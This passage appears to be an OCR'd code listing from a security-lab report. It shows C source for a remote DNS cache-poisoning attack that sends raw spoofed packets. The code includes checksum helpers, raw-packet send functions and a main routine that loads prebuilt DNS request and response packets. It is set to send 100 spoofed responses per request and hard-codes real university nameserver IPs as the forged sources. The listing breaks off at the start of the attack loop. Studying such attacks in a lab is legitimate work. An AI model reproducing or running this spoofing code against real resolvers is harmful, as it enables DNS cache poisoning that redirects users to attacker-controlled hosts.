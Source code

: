 ```c
uint16_t ip_checksum(uint8_t* buffer) {
    struct ipheader* ipHeader = (struct ipheader*)(buffer);
    ipHeader->iph_chksum = 0;
    return checksum_word((uint16_t*)buffer, sizeof(struct ipheader) / 2);
}
```

- `remote_dns_attack.c`：

```c
#include "remote_dns_attack.h"

#define NAME_LEN 5                          // Length of random name.
#define MAX_SIZE 1024
#define SPOOF_TIMES 100                     // Spoofed response nums per request.
#define NS1 "202.114.0.120"                 // dns1.hust.edu.cn
#define NS2 "59.172.234.181"                // dns2.hust.edu.cn
#define REQUEST_FILE "dns_request.bin"
#define RESPONSE_FILE "dns_response.bin"
#define OFFSET_REQUEST_QDSEC_QNAME 41
#define OFFSET_RESPONSE_IP_SRC 12
#define OFFSET_RESPONSE_DNS_ID 28
#define OFFSET_RESPONSE_QDSEC_QNAME 41
#define OFFSET_RESPONSE_ANSSEC_QNAME 64

uint32_t checksum(uint16_t* buffer, int byte_size);
uint16_t checksum_word(uint16_t* buffer, int word_size);
uint16_t ip_checksum(uint8_t* buffer);
uint16_t udp_checksum(uint8_t* buffer, int udp_byte_size);
void send_dns_request(uint8_t* request, int size, char* name);
void send_dns_response(uint8_t* response, int size, char* src_ip, char* name, uint16_t id);
void send_raw_packet(uint8_t* buffer, int size);

int main() {
    srand(time(NULL));
    clock_t start = clock();

    uint16_t id = 0;
    uint64_t request_cnt = 0, response_cnt = 0;
    size_t dns_request_size, dns_response_size;
    uint8_t dns_request[MAX_SIZE], dns_response[MAX_SIZE];

    // Open and load the dns request created by python code.
    FILE* fp_request = fopen(REQUEST_FILE, "rb");
    if (!fp_request) {
        printf("Open " REQUEST_FILE " Failed!\n");
        exit(-1);
    }
    dns_request_size = fread(dns_request, 1, MAX_SIZE, fp_request);

    // Open and load the dns response created by python code.
    FILE* fp_response = fopen(RESPONSE_FILE, "rb");
    if (!fp_response) {
        printf("Open " RESPONSE_FILE " Failed!\n");
        exit(-1);
    }
    dns_response_size = fread(dns_response, 1, MAX_SIZE, fp_response);

    char alpha[26] = "abcdefghijklmnopqrstuvwxyz", name[NAME_LEN + 1] = { '\0' };
    printf("Start attack...\n");
    printf("Request Sent      Response Sent      Time Spent      Last Name\n");

    // Start the attack.
    while (1) {
```
